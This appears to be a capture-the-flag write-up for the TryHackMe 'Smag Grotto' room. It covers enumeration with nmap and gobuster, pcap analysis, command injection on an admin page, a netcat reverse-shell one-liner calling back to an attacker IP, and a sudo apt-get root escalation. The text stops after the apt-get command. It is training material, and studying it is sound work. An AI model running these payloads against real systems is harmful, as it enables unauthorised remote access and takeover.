 ![banner](../../Images/banner.png)


**Room by:** 
**Difficulty:** Easy
**Url:** [TryHackMe.com - Smag Grotto](https://tryhackme.com/room/smaggrotto)


## Overview:

Find .pcap file at /mail and analyze with Wireshark. Login to /admin.php and exploit command injection. Exploit cron job to gain user, and then a GTFOBin for root.


## ~ Enumeration
**Start with an nmap scan `nmap -sV -sC -oN nmap/scan smag.thm`. Then we will run Gobuster against `http://smag.thn'.**

**Nmap** <br />

```bash
# Nmap 7.80 scan initiated Wed Jul 29 20:32:03 2020 as: nmap -sC -sV -oN scan 10.10.207.150
Nmap scan report for 10.10.207.150
Host is up (0.024s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 74:e0:e1:b4:05:85:6a:15:68:7e:16:da:f2:c7:6b:ee (RSA)
|   256 bd:43:62:b9:a1:86:51:36:f8:c7:df:f9:0f:63:8f:a3 (ECDSA)
|_  256 f9:e7:da:07:8f:10:af:97:0b:32:87:c9:32:d7:1b:76 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Smag
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

**HTML**
<br />

[![html](/Images/welcome.png)](/Images/welcome.png)

<br />

> Nothing obvious so far

<br />

**Gobuster**
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.131.117
[+] Threads:        10
[+] Wordlist:       /opt/wordlists/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/12/08 11:48:07 Starting gobuster
===============================================================
// (Status: 200)
/mail (Status: 301)
===============================================================
2020/12/08 11:48:24 Finished
===============================================================
```
<br />

**If we go to `/mail` you will find a `.pcap` file to download. The page instructs you to download using `wget`.**

`wget http://smag.thm/aW1wb3J0YW50/dHJhY2Uy.pcap`


**Now we have the file, lets analyze it using Wireshark.**

[![wireshark](//img/thm/smag/wireshark1.png)](/Images/wireshark1.png)

**Follow the HTTP stream:**
<br />

[![stream](//img/thm/smag/wireshark2.png)](/Images/wireshark2.png)

**This gives us a username, password and a domain name to add to `/etc/hosts`**
[![dev](//img/thm/smag/devsmag.png)](/Images/devsmag.png)


## ~ Foothold

If we browse to `/login.php` we can log in using the creds we found earlier. And then we are greeted a page, where we can input commands. For a simple PoC we will host a http server on our machine and try to `wget` from the command box.

**`wget 'http://10.10.10.10:8000/test.txt`**

<br />

[![Success](//img/thm/smag/wget.png)](/Images/wget.png)

**Revers Shell:**
We are going to set up and send a netcat reverse shell.
<br />
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f`

[![admin](//img/thm/smag/adminphp.png)](/Images/adminphp.png)
<br />  

[![ncat](//img/thm/smag/nc.png)](/Images/nc.png)

## ~ Privesc to user:


## `Sudo -l`
```
Matching Defaults entries for jake on smag:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on smag:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get

```


`sudo /usr/bin/apt-get update -o APT::Update::Pre-Invoke::=/bin/sh`


